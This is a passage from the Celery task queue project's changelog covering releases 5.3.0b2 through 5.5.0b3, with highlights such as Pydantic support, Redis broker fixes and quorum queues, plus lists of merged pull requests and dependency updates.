Previous Pre-release Highlights
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Added SQS (localstack) broker to canvas smoke tests (#9179)
- Pin elastic-transport to <= latest version 8.15.0 (#9182)
- Update elasticsearch requirement from <=8.14.0 to <=8.15.0 (#9186)
- Improve formatting (#9188)
- Add basic helm chart for celery (#9181)
- Update kafka.rst (#9194)
- Update pytest-order to 1.3.0 (#9198)
- Update mypy to 1.11.2 (#9206)
- All added to routes (#9204)
- Fix typos discovered by codespell (#9212)
- Use tzdata extras with zoneinfo backports (#8286)
- Use `docker compose` in Contributing's doc build section (#9219)
- Failing test for issue #9119 (#9215)
- Fix date_done timezone issue (#8385)
- CI Fixes to smoke tests (#9223)
- Fix: passes current request context when pushing to request_stack (#9208)
- Fix broken link in the Using RabbitMQ docs page (#9226)
- Added Soft Shutdown Mechanism (#9213)
- Added worker_enable_soft_shutdown_on_idle (#9231)
- Bump cryptography from 43.0.0 to 43.0.1 (#9233)
- Added docs regarding the relevancy of soft shutdown and ETA tasks (#9238)
- Show broker_connection_retry_on_startup warning only if it evaluates as False (#9227)
- Fixed docker-docs CI failure (#9240)
- Added docker cleanup auto-fixture to improve smoke tests stability (#9243)
- print is not thread-safe, so should not be used in signal handler (#9222)
- Prepare for (pre) release: v5.5.0b3 (#9244)

.. _version-5.5.0b2:

5.5.0b2
=======

:release-date: 2024-08-06
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 2 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Pydantic Support
----------------

This release introduces support for Pydantic models in Celery tasks.
For more info, see the new pydantic example and PR `#9023 <https://github.com/celery/celery/pull/9023>`_ by @mathiasertl.

After upgrading to this version, please share your feedback on the new Pydantic support.

Previous Beta Highlights
~~~~~~~~~~~~~~~~~~~~~~~~

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the v5.4.0 release of Kombu, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- Bump pytest from 8.3.1 to 8.3.2 (#9153)
- Remove setuptools deprecated test command from setup.py (#9159)
- Pin pre-commit to latest version 3.8.0 from Python 3.9 (#9156)
- Bump mypy from 1.11.0 to 1.11.1 (#9164)
- Change "docker-compose" to "docker compose" in Makefile (#9169)
- update python versions and docker compose (#9171)
- Add support for Pydantic model validation/serialization (fixes #8751) (#9023)
- Allow local dynamodb to be installed on another host than localhost (#8965)
- Terminate job implementation for gevent concurrency backend (#9083)
- Bump Kombu to v5.4.0 (#9177)
- Add check for soft_time_limit and time_limit values (#9173)
- Prepare for (pre) release: v5.5.0b2 (#9178)

.. _version-5.5.0b1:

5.5.0b1
=======

:release-date: 2024-07-24
:release-by: Tomer Nosrati

Celery v5.5.0 Beta 1 is now available for testing.
Please help us test this version and report any issues.

Key Highlights
~~~~~~~~~~~~~~

Redis Broker Stability Improvements
-----------------------------------
The root cause of the Redis broker instability issue has been `identified and resolved <https://github.com/celery/kombu/pull/2007>`_
in the release-candidate for Kombu v5.4.0. This beta release has been upgraded to use the new
Kombu RC version, which should resolve the disconnections bug and offer additional improvements.

After upgrading to this version, please share your feedback on the Redis broker stability.

Relevant Issues:
`#7276 <https://github.com/celery/celery/discussions/7276>`_,
`#8091 <https://github.com/celery/celery/discussions/8091>`_,
`#8030 <https://github.com/celery/celery/discussions/8030>`_,
`#8384 <https://github.com/celery/celery/discussions/8384>`_

Quorum Queues Initial Support
-----------------------------
This release introduces the initial support for Quorum Queues with Celery. 

See new configuration options for more details:

- :setting:`task_default_queue_type`
- :setting:`worker_detect_quorum_queues`

After upgrading to this version, please share your feedback on the Quorum Queues support.

Relevant Issues:
`#6067 <https://github.com/celery/celery/discussions/6067>`_,
`#9121 <https://github.com/celery/celery/discussions/9121>`_

What's Changed
~~~~~~~~~~~~~~

- (docs): use correct version celery v.5.4.x (#8975)
- Update mypy to 1.10.0 (#8977)
- Limit pymongo<4.7 when Python <= 3.10 due to breaking changes in 4.7 (#8988)
- Bump pytest from 8.1.1 to 8.2.0 (#8987)
- Update README to Include FastAPI in Framework Integration Section (#8978)
- Clarify return values of ..._on_commit methods (#8984)
- add kafka broker docs (#8935)
- Limit pymongo<4.7 regardless of Python version (#8999)
- Update pymongo[srv] requirement from <4.7,>=4.0.2 to >=4.0.2,<4.8 (#9000)
- Update elasticsearch requirement from <=8.13.0 to <=8.13.1 (#9004)
- security: SecureSerializer: support generic low-level serializers (#8982)
- don't kill if pid same as file (#8997) (#8998)
- Update cryptography to 42.0.6 (#9005)
- Bump cryptography from 42.0.6 to 42.0.7 (#9009)
- Added -vv to unit, integration and smoke tests (#9014)
- SecuritySerializer: ensure pack separator will not be conflicted with serialized fields (#9010)
- Update sphinx-click to 5.2.2 (#9025)
- Bump sphinx-click from 5.2.2 to 6.0.0 (#9029)
- Fix a typo to display the help message in first-steps-with-django (#9036)
- Pinned requests to v2.31.0 due to docker-py bug #3256 (#9039)
- Fix certificate validity check (#9037)
- Revert "Pinned requests to v2.31.0 due to docker-py bug #3256" (#9043)
- Bump pytest from 8.2.0 to 8.2.1 (#9035)
- Update elasticsearch requirement from <=8.13.1 to <=8.13.2 (#9045)
- Fix detection of custom task set as class attribute with Django (#9038)
- Update elastic-transport requirement from <=8.13.0 to <=8.13.1 (#9050)
- Bump pycouchdb from 1.14.2 to 1.16.0 (#9052)
- Update pytest to 8.2.2 (#9060)
- Bump cryptography from 42.0.7 to 42.0.8 (#9061)
- Update elasticsearch requirement from <=8.13.2 to <=8.14.0 (#9069)
- [enhance feature] Crontab schedule: allow using month names (#9068)
- Enhance tox environment: [testenv:clean] (#9072)
- Clarify docs about Reserve one task at a time (#9073)
- GCS docs fixes (#9075)
- Use hub.remove_writer instead of hub.remove for write fds (#4185) (#9055)
- Class method to process crontab string (#9079)
- Fixed smoke tests env bug when using integration tasks that rely on Redis (#9090)
- Bugfix - a task will run multiple times when chaining chains with groups (#9021)
- Bump mypy from 1.10.0 to 1.10.1 (#9096)
- Don't add a separator to global_keyprefix if it already has one (#9080)
- Update pymongo[srv] requirement from <4.8,>=4.0.2 to >=4.0.2,<4.9 (#9111)
- Added missing import in examples for Django (#9099)
- Bump Kombu to v5.4.0rc1 (#9117)
- Removed skipping Redis in t/smoke/tests/test_consumer.py tests (#9118)
- Update pytest-subtests to 0.13.0 (#9120)
- Increased smoke tests CI timeout (#9122)
- Bump Kombu to v5.4.0rc2 (#9127)
- Update zstandard to 0.23.0 (#9129)
- Update pytest-subtests to 0.13.1 (#9130)
- Changed retry to tenacity in smoke tests (#9133)
- Bump mypy from 1.10.1 to 1.11.0 (#9135)
- Update cryptography to 43.0.0 (#9138)
- Update pytest to 8.3.1 (#9137)
- Added support for Quorum Queues (#9121)
- Bump Kombu to v5.4.0rc3 (#9139)
- Cleanup in Changelog.rst (#9141)
- Update Django docs for CELERY_CACHE_BACKEND (#9143)
- Added missing docs to previous releases (#9144)
- Fixed a few documentation build warnings (#9145)
- docs(README): link invalid (#9148)
- Prepare for (pre) release: v5.5.0b1 (#9146)

.. _version-5.4.0:

5.4.0
=====

:release-date: 2024-04-17
:release-by: Tomer Nosrati

Celery v5.4.0 and v5.3.x have consistently focused on enhancing the overall QA, both internally and externally.
This effort led to the new pytest-celery v1.0.0 release, developed concurrently with v5.3.0 & v5.4.0.

This release introduces two significant QA enhancements:

- **Smoke Tests**: A new layer of automatic tests has been added to Celery's standard CI. These tests are designed to handle production scenarios and complex conditions efficiently. While new contributions will not be halted due to the lack of smoke tests, we will request smoke tests for advanced changes where appropriate.
- `Standalone Bug Report Script <https://docs.celeryq.dev/projects/pytest-celery/en/latest/userguide/celery-bug-report.html>`_: The new pytest-celery plugin now allows for encapsulating a complete Celery dockerized setup within a single pytest script. Incorporating these into new bug reports will enable us to reproduce reported bugs deterministically, potentially speeding up the resolution process.

Contrary to the positive developments above, there have been numerous reports about issues with the Redis broker malfunctioning
upon restarts and disconnections. Our initial attempts to resolve this were not successful (#8796).
With our enhanced QA capabilities, we are now prepared to address the core issue with Redis (as a broker) again.

The rest of the changes for this release are grouped below, with the changes from the latest release candidate listed at the end.

Changes
~~~~~~~
- Add a Task class specialised for Django (#8491)
- Add Google Cloud Storage (GCS) backend (#8868)
- Added documentation to the smoke tests infra (#8970)
- Added a checklist item for using pytest-celery in a bug report (#8971)
- Bugfix: Missing id on chain (#8798)
- Bugfix: Worker not consuming tasks after Redis broker restart (#8796)
- Catch UnicodeDecodeError when opening corrupt beat-schedule.db (#8806)
- chore(ci): Enhance CI with `workflow_dispatch` for targeted debugging and testing (#8826)
- Doc: Enhance "Testing with Celery" section (#8955)
- Docfix: pip install celery[sqs] -> pip install "celery[sqs]" (#8829)
- Enable efficient `chord` when using dynamicdb as backend store (#8783)
- feat(daemon): allows daemonization options to be fetched from app settings (#8553)
- Fix DeprecationWarning: datetime.datetime.utcnow() (#8726)
- Fix recursive result parents on group in middle of chain (#8903)
- Fix typos and grammar (#8915)
- Fixed version documentation tag from #8553 in configuration.rst (#8802)
- Hotfix: Smoke tests didn't allow customizing the worker's command arguments, now it does (#8937)
- Make custom remote control commands available in CLI (#8489)
- Print safe_say() to stdout for non-error flows (#8919)
- Support moto 5.0 (#8838)
- Update contributing guide to use ssh upstream url (#8881)
- Update optimizing.rst (#8945)
- Updated concurrency docs page. (#8753)

Dependencies Updates
~~~~~~~~~~~~~~~~~~~~
- Bump actions/setup-python from 4 to 5 (#8701)
- Bump codecov/codecov-action from 3 to 4 (#8831)
- Bump isort from 5.12.0 to 5.13.2 (#8772)
- Bump msgpack from 1.0.7 to 1.0.8 (#8885)
- Bump mypy from 1.8.0 to 1.9.0 (#8898)
- Bump pre-commit to 3.6.1 (#8839)
- Bump pre-commit/action from 3.0.0 to 3.0.1 (#8835)
- Bump pytest from 8.0.2 to 8.1.1 (#8901)
- Bump pytest-celery to v1.0.0 (#8962)
- Bump pytest-cov to 5.0.0 (#8924)
- Bump pytest-order from 1.2.0 to 1.2.1 (#8941)
- Bump pytest-subtests from 0.11.0 to 0.12.1 (#8896)
- Bump pytest-timeout from 2.2.0 to 2.3.1 (#8894)
- Bump python-memcached from 1.59 to 1.61 (#8776)
- Bump sphinx-click from 4.4.0 to 5.1.0 (#8774)
- Update cryptography to 42.0.5 (#8869)
- Update elastic-transport requirement from <=8.12.0 to <=8.13.0 (#8933)
- Update elasticsearch requirement from <=8.12.1 to <=8.13.0 (#8934)
- Upgraded Sphinx from v5.3.0 to v7.x.x (#8803)

Changes since 5.4.0rc2
~~~~~~~~~~~~~~~~~~~~~~~
- Update elastic-transport requirement from <=8.12.0 to <=8.13.0 (#8933)
- Update elasticsearch requirement from <=8.12.1 to <=8.13.0 (#8934)
- Hotfix: Smoke tests didn't allow customizing the worker's command arguments, now it does (#8937)
- Bump pytest-celery to 1.0.0rc3 (#8946)
- Update optimizing.rst (#8945)
- Doc: Enhance "Testing with Celery" section (#8955)
- Bump pytest-celery to v1.0.0 (#8962)
- Bump pytest-order from 1.2.0 to 1.2.1 (#8941)
- Added documentation to the smoke tests infra (#8970)
- Added a checklist item for using pytest-celery in a bug report (#8971)
- Added changelog for v5.4.0 (#8973)
- Bump version: 5.4.0rc2 → 5.4.0 (#8974)

.. _version-5.4.0rc2:

5.4.0rc2
========

:release-date: 2024-03-27
:release-by: Tomer Nosrati

- feat(daemon): allows daemonization options to be fetched from app settings (#8553)
- Fixed version documentation tag from #8553 in configuration.rst (#8802)
- Upgraded Sphinx from v5.3.0 to v7.x.x (#8803)
- Update elasticsearch requirement from <=8.11.1 to <=8.12.0 (#8810)
- Update elastic-transport requirement from <=8.11.0 to <=8.12.0 (#8811)
- Update cryptography to 42.0.0 (#8814)
- Catch UnicodeDecodeError when opening corrupt beat-schedule.db (#8806)
- Update cryptography to 42.0.1 (#8817)
- Limit moto to <5.0.0 until the breaking issues are fixed (#8820)
- Enable efficient `chord` when using dynamicdb as backend store (#8783)
- Add a Task class specialised for Django (#8491)
- Sync kombu versions in requirements and setup.cfg (#8825)
- chore(ci): Enhance CI with `workflow_dispatch` for targeted debugging and testing (#8826)
- Update cryptography to 42.0.2 (#8827)
- Docfix: pip install celery[sqs] -> pip install "celery[sqs]" (#8829)
- Bump pre-commit/action from 3.0.0 to 3.0.1 (#8835)
- Support moto 5.0 (#8838)
- Another fix for `link_error` signatures being `dict`s instead of `Signature` s (#8841)
- Bump codecov/codecov-action from 3 to 4 (#8831)
- Upgrade from pytest-celery v1.0.0b1 -> v1.0.0b2 (#8843)
- Bump pytest from 7.4.4 to 8.0.0 (#8823)
- Update pre-commit to 3.6.1 (#8839)
- Update cryptography to 42.0.3 (#8854)
- Bump pytest from 8.0.0 to 8.0.1 (#8855)
- Update cryptography to 42.0.4 (#8864)
- Update pytest to 8.0.2 (#8870)
- Update cryptography to 42.0.5 (#8869)
- Update elasticsearch requirement from <=8.12.0 to <=8.12.1 (#8867)
- Eliminate consecutive chords generated by group | task upgrade (#8663)
- Make custom remote control commands available in CLI (#8489)
- Add Google Cloud Storage (GCS) backend (#8868)
- Bump msgpack from 1.0.7 to 1.0.8 (#8885)
- Update pytest to 8.1.0 (#8886)
- Bump pytest-timeout from 2.2.0 to 2.3.1 (#8894)
- Bump pytest-subtests from 0.11.0 to 0.12.1 (#8896)
- Bump mypy from 1.8.0 to 1.9.0 (#8898)
- Update pytest to 8.1.1 (#8901)
- Update contributing guide to use ssh upstream url (#8881)
- Fix recursive result parents on group in middle of chain (#8903)
- Bump pytest-celery to 1.0.0b4 (#8899)
- Adjusted smoke tests CI time limit (#8907)
- Update pytest-rerunfailures to 14.0 (#8910)
- Use the "all" extra for pytest-celery (#8911)
- Fix typos and grammar (#8915)
- Bump pytest-celery to 1.0.0rc1 (#8918)
- Print safe_say() to stdout for non-error flows (#8919)
- Update pytest-cov to 5.0.0 (#8924)
- Bump pytest-celery to 1.0.0rc2 (#8928)

.. _version-5.4.0rc1:

5.4.0rc1
========

:release-date: 2024-01-17 7:00 P.M GMT+2
:release-by: Tomer Nosrati

Celery v5.4 continues our effort to provide improved stability in production
environments. The release candidate version is available for testing.
The official release is planned for March-April 2024.

- New Config: worker_enable_prefetch_count_reduction (#8581)
- Added "Serverless" section to Redis doc (redis.rst) (#8640)
- Upstash's Celery example repo link fix (#8665)
- Update mypy version (#8679)
- Update cryptography dependency to 41.0.7 (#8690)
- Add type annotations to celery/utils/nodenames.py (#8667)
- Issue 3426. Adding myself to the contributors. (#8696)
- Bump actions/setup-python from 4 to 5 (#8701)
- Fixed bug where chord.link_error() throws an exception on a dict type errback object (#8702)
- Bump github/codeql-action from 2 to 3 (#8725)
- Fixed multiprocessing integration tests not running on Mac (#8727)
- Added make docker-docs (#8729)
- Fix DeprecationWarning: datetime.datetime.utcnow() (#8726)
- Remove `new` adjective in docs (#8743)
- add type annotation to celery/utils/sysinfo.py (#8747)
- add type annotation to celery/utils/iso8601.py (#8750)
- Change type annotation to celery/utils/iso8601.py (#8752)
- Update test deps (#8754)
- Mark flaky: test_asyncresult_get_cancels_subscription() (#8757)
- change _read_as_base64 (b64encode returns bytes) on celery/utils/term.py (#8759)
- Replace string concatenation with fstring on celery/utils/term.py (#8760)
- Add type annotation to celery/utils/term.py (#8755)
- Skipping test_tasks::test_task_accepted (#8761)
- Updated concurrency docs page. (#8753)
- Changed pyup -> dependabot for updating dependencies (#8764)
- Bump isort from 5.12.0 to 5.13.2 (#8772)
- Update elasticsearch requirement from <=8.11.0 to <=8.11.1 (#8775)
- Bump sphinx-click from 4.4.0 to 5.1.0 (#8774)
- Bump python-memcached from 1.59 to 1.61 (#8776)
- Update elastic-transport requirement from <=8.10.0 to <=8.11.0 (#8780)
- python-memcached==1.61 -> python-memcached>=1.61 (#8787)
- Remove usage of utcnow (#8791)
- Smoke Tests (#8793)
- Moved smoke tests to their own workflow (#8797)
- Bugfix: Worker not consuming tasks after Redis broker restart (#8796)
- Bugfix: Missing id on chain (#8798)

.. _version-5.3.6:

5.3.6
=====

:release-date: 2023-11-22  9:15 P.M GMT+6
:release-by: Asif Saif Uddin

This release is focused mainly to fix AWS SQS new feature comatibility issue and old regressions. 
The code changes are mostly fix for regressions. More details can be found below.

- Increased docker-build CI job timeout from 30m -> 60m (#8635)
- Incredibly minor spelling fix. (#8649)
- Fix non-zero exit code when receiving remote shutdown (#8650)
- Update task.py get_custom_headers missing 'compression' key (#8633)
- Update kombu>=5.3.4 to fix SQS request compatibility with boto JSON serializer (#8646)
- test requirements version update (#8655)
- Update elasticsearch version (#8656)
- Propagates more ImportErrors during autodiscovery (#8632)

.. _version-5.3.5:

5.3.5
=====

:release-date: 2023-11-10  7:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Update test.txt versions (#8481)
- fix os.getcwd() FileNotFoundError (#8448)
- Fix typo in CONTRIBUTING.rst (#8494)
- typo(doc): configuration.rst (#8484)
- assert before raise (#8495)
- Update GHA checkout version (#8496)
- Fixed replaced_task_nesting (#8500)
- Fix code indentation for route_task() example (#8502)
- support redis 5.x (#8504)
- Fix typos in test_canvas.py (#8498)
- Marked flaky tests (#8508)
- Fix typos in calling.rst (#8506)
- Added support for replaced_task_nesting in chains (#8501)
- Fix typos in canvas.rst (#8509)
- Patch Version Release Checklist (#8488)
- Added Python 3.11 support to Dockerfile (#8511)
- Dependabot (Celery) (#8510)
- Bump actions/checkout from 3 to 4 (#8512)
- Update ETA example to include timezone (#8516)
- Replaces datetime.fromisoformat with the more lenient dateutil parser (#8507)
- Fixed indentation in Dockerfile for Python 3.11 (#8527)
- Fix git bug in Dockerfile (#8528)
- Tox lint upgrade from Python 3.9 to Python 3.11 (#8526)
- Document gevent concurrency (#8520)
- Update test.txt (#8530)
- Celery Docker Upgrades (#8531)
- pyupgrade upgrade v3.11.0 -> v3.13.0 (#8535)
- Update msgpack.txt (#8548)
- Update auth.txt (#8547)
- Update msgpack.txt to fix build issues (#8552)
- Basic ElasticSearch / ElasticClient 8.x Support (#8519)
- Fix eager tasks does not populate name field (#8486)
- Fix typo in celery.app.control (#8563)
- Update solar.txt ephem (#8566)
- Update test.txt pytest-timeout (#8565)
- Correct some mypy errors (#8570)
- Update elasticsearch.txt (#8573)
- Update test.txt deps (#8574)
- Update test.txt (#8590)
- Improved the "Next steps" documentation (#8561). (#8600)
- Disabled couchbase tests due to broken package breaking main (#8602)
- Update elasticsearch deps (#8605)
- Update cryptography==41.0.5 (#8604)
- Update pytest==7.4.3 (#8606)
- test initial support of python 3.12.x (#8549)
- updated new versions to fix CI (#8607)
- Update zstd.txt (#8609)
- Fixed CI Support with Python 3.12 (#8611)
- updated CI, docs and classifier for next release (#8613)
- updated dockerfile to add python 3.12 (#8614)
- lint,mypy,docker-unit-tests -> Python 3.12 (#8617)
- Correct type of `request` in `task_revoked` documentation (#8616)
- update docs docker image (#8618)
- Fixed RecursionError caused by giving `config_from_object` nested mod… (#8619)
- Fix: serialization error when gossip working (#6566)
- [documentation] broker_connection_max_retries of 0 does not mean "retry forever" (#8626)
- added 2 debian package for better stability in Docker (#8629)

.. _version-5.3.4:

5.3.4
=====

:release-date: 2023-09-03 10:10 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has reverted the breaking changes introduced in 5.3.2 and 5.3.3:

   - Revert "store children with database backend" (#8475)
   - Revert "Fix eager tasks does not populate name field" (#8476)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- add documents for timeout settings (#8373)
- fix: copyright year (#8380)
- setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- fix(canvas): add group index when unrolling tasks (#8427)
- fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)
- Document need for CELERY_ prefix on CLI env vars (#8469)
- Use string value for CELERY_SKIP_CHECKS envvar (#8462)
- Revert "store children with database backend" (#8475)
- Revert "Fix eager tasks does not populate name field" (#8476)
- Update Changelog (#8474)
- Remove as it seems to be buggy. (#8340)
- Revert "Add Semgrep to CI" (#8477)
- Revert "Revert "Add Semgrep to CI"" (#8478)

.. _version-5.3.3:

5.3.3 (Yanked)
==============

:release-date: 2023-08-31 1:47 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Fixed changelog for 5.3.2 release docs.

.. _version-5.3.2:

5.3.2 (Yanked)
==============

:release-date: 2023-08-31 1:30 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- Store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- Add documents for timeout settings (#8373)
- Fix: copyright year (#8380)
- Setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- Integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- Fix(canvas): add group index when unrolling tasks (#8427)
- Fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- Added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- Doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)

.. _version-5.3.1:

5.3.1
=====

:release-date: 2023-06-18  8:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Upgrade to latest pycurl release (#7069).
- Limit librabbitmq>=2.0.0; python_version < '3.11' (#8302).
- Added initial support for python 3.11 (#8304).
- ChainMap observers fix (#8305).
- Revert optimization CLI flag behaviour back to original.
- Restrict redis 4.5.5 as it has severe bugs (#8317).
- Tested pypy 3.10 version in CI (#8320).
- Bump new version of kombu to 5.3.1 (#8323).
- Fixed a small float value of retry_backoff (#8295).
- Limit pyro4 up to python 3.10 only as it is (#8324).

.. _version-5.3.0:

5.3.0
=====

:release-date: 2023-06-06 12:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Test kombu 5.3.0 & minor doc update (#8294).
- Update librabbitmq.txt > 2.0.0 (#8292).
- Upgrade syntax to py3.8 (#8281).

.. _version-5.3.0rc2:

5.3.0rc2
========

:release-date: 2023-05-31 9:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Add missing dependency.
- Fix exc_type being the exception instance rather.
- Fixed revoking tasks by stamped headers (#8269).
- Support sqlalchemy 2.0 in tests (#8271).
- Fix docker (#8275).
- Update redis.txt to 4.5 (#8278).
- Update kombu>=5.3.0rc2.


.. _version-5.3.0rc1:

5.3.0rc1
========

:release-date: 2023-05-11 4:24 P.M GMT+2
:release-by: Tomer Nosrati

- fix functiom name by @cuishuang in #8087
- Update CELERY_TASK_EAGER setting in user guide by @thebalaa in #8085
- Stamping documentation fixes & cleanups by @Nusnus in #8092
- switch to maintained pyro5 by @auvipy in #8093
- udate dependencies of tests by @auvipy in #8095
- cryptography==39.0.1 by @auvipy in #8096
- Annotate celery/security/certificate.py by @Kludex in #7398
- Deprecate parse_iso8601 in favor of fromisoformat by @stumpylog in #8098
- pytest==7.2.2 by @auvipy in #8106
- Type annotations for celery/utils/text.py by @max-muoto in #8107
- Update web framework URLs by @sblondon in #8112
- Fix contribution URL by @sblondon in #8111
- Trying to clarify CERT_REQUIRED by @pamelafox in #8113
- Fix potential AttributeError on 'stamps' by @Darkheir in #8115
- Type annotations for celery/apps/beat.py by @max-muoto in #8108
- Fixed bug where retrying a task loses its stamps by @Nusnus in #8120
- Type hints for celery/schedules.py by @max-muoto in #8114
- Reference Gopher Celery in README by @marselester in #8131
- Update sqlalchemy.txt by @auvipy in #8136
- azure-storage-blob 12.15.0 by @auvipy in #8137
- test kombu 5.3.0b3 by @auvipy in #8138
- fix: add expire string parse. by @Bidaya0 in #8134
- Fix worker crash on un-pickleable exceptions by @youtux in #8133
- CLI help output: avoid text rewrapping by click by @woutdenolf in #8152
- Warn when an unnamed periodic task override another one. by @iurisilvio in #8143
- Fix Task.handle_ignore not wrapping exceptions properly by @youtux in #8149
- Hotfix for (#8120) - Stamping bug with retry by @Nusnus in #8158
- Fix integration test by @youtux in #8156
- Fixed bug in revoke_by_stamped_headers where impl did not match doc by @Nusnus in #8162
- Align revoke and revoke_by_stamped_headers return values (terminate=True) by @Nusnus in #8163
- Update & simplify GHA pip caching by @stumpylog in #8164
- Update auth.txt by @auvipy in #8167
- Update test.txt versions by @auvipy in #8173
- remove extra = from test.txt by @auvipy in #8179
- Update sqs.txt kombu[sqs]>=5.3.0b3 by @auvipy in #8174
- Added signal triggered before fork by @jaroslawporada in #8177
- Update documentation on SQLAlchemy by @max-muoto in #8188
- Deprecate pytz and use zoneinfo by @max-muoto in #8159
- Update dev.txt by @auvipy in #8192
- Update test.txt by @auvipy in #8193
- Update test-integration.txt by @auvipy in #8194
- Update zstd.txt by @auvipy in #8195
- Update s3.txt by @auvipy in #8196
- Update msgpack.txt by @auvipy in #8199
- Update solar.txt by @auvipy in #8198
- Add Semgrep to CI by @Nusnus in #8201
- Added semgrep to README.rst by @Nusnus in #8202
- Update django.txt by @auvipy in #8197
- Update redis.txt 4.3.6 by @auvipy in #8161
- start removing codecov from pypi by @auvipy in #8206
- Update test.txt dependencies by @auvipy in #8205
- Improved doc for: worker_deduplicate_successful_tasks by @Nusnus in #8209
- Renamed revoked_headers to revoked_stamps by @Nusnus in #8210
- Ensure argument for map is JSON serializable by @candleindark in #8229

.. _version-5.3.0b2:

5.3.0b2
=======

:release-date: 2023-02-19 1:47 P.M GMT+2
:release-by: Asif Saif Uddin

- BLM-2: Adding unit tests to chord clone by @Nusnus in #7668
- Fix unknown task error typo by @dcecile in #7675
- rename redis integration test class so that tests are executed by @wochinge in #7684
